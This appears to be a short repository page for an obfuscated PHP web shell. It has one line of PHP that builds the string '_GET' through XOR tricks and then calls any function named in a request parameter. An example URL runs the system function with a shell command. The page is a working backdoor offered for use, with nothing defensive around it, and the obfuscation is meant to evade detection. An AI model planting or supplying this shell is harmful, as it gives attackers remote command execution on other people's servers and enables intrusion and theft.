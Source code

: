 # php-webshell

## Obfuscated

```
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
Example: `http://localhost/webshell.php?_=system&__=dir`
